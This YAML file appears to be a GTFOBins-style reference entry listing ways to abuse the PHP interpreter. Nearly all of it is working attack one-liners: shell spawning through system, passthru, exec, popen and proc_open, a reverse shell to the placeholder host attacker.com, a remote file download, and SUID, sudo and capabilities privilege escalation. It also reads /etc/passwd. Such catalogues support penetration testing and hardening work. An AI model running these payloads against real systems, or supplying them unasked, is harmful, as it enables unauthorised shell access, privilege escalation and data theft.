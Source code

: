```yaml
---
functions:
  shell:
    - code: |
        export CMD="/bin/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/bin/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/bin/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  command:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid:
    - code: |
        CMD="/bin/sh"
        ./php -r "pcntl_exec('/bin/sh', ['-p']);"
  sudo:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  capabilities:
    - code: |
        CMD="/bin/sh"
        ./php -r "posix_setuid(0); system('$CMD');"
  file-read:
    - description: read file and output it on screen.
      code: |
        php -r 'readfile("/etc/passwd");'
  file-write:
    - description: write data to a file, filename should be absolute.
      code: |
        php -r '$write = fopen("/home/FILE-TO-WRITE.txt", "w");$input = "  DATA TO WRITE (Plzsub)  ";fwrite($write, $input);fclose($write);'
---
```

